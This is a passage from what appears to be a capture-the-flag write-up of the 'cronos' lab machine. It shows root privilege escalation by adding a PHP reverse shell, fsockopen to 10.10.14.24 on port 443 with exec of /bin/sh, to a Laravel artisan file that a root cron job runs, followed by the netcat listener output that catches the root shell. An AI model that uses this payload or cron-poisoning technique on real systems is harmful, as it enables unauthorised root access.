 

The cron syntax here says that it will run every minute, as root:

![](/img/crontab-syntax.png)

The command is
`php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1`

I don't really need to know what the Laravel artisan is doing. What does
matter is that as www-data, I have write permissions on that file:



    www-data@cronos:/var/www/laravel$ ls -la artisan 
    -rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 artisan



### Poison artisan

I'll open the `artisan` file and add two lines at the top:



    <?php

    $sock=fsockopen("10.10.14.24", 443);
    exec("/bin/sh -i <&3 >&3 2>&3");
    /*
    |--------------------------------------------------------------------------
    | Register The Auto Loader
    |--------------------------------------------------------------------------



Next time the cron runs, I get a callback:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.13.
    Ncat: Connection from 10.10.10.13:36216.
    /bin/sh: 0: can't access tty; job control turned off
    # id
    uid=0(root) gid=0(root) groups=0(root)


